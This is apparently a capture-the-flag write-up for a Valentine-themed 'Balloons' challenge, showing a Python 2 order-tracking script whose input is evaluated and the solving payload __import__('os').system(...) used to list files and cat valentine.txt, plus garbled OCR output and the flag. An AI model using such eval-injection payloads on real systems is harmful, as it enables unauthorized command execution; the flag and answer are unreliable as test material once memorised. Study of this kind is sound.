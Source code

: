 # Feb. 1 - Balloons
> Starting off with a bang (pop)! I ordered a bunch of Valentine's Day-themed balloons, and I'm so excited about them! Here's the portal I use to track my order.

> Look for "valentine.txt."

## About the Challenge
We were given a python code and we need to bypass from the sandbox. The python code will be look like this:
```python
from balloon_tracking_lookup import get_status

print "Welcome to your balloon order-tracking portal! Enter your tracking number here.\n"
tracking_number = input(">>> ")

try:
  print "Getting status for order #" + str(int(tracking_number)) + "..."
except:
  print "Invalid tracking number!"

print get_status(int(tracking_number))
```

## How to Solve?
When I input `1+1` it turns out that the output is 2 which means it's possible that the get_status function used the `eval` function, and then I tried to escape the sandbox using a payload like this and it worked
```
__import__('os').system('ls')
```

And finally after being able to escape the sandbox, read the valentine.txt file and the flag appears


[Image extracted text: We
come
to your balloon
order
~tracking portal!
Enter
your tracking number here_
import
('os
) .system(
cat valentine.txt
valentine{Oops_
1_go7_hydrog3n_ballOOn5_NONOWHEREAREYOUGOINGWITHTHATLIGHTER}>>> Getting status
for
order #0_
Tracking number not
found]


```
valentine{0ops_i_go7_hydrog3n_ball00n5_NONOWHEREAREYOUGOINGWITHTHATLIGHTER}
```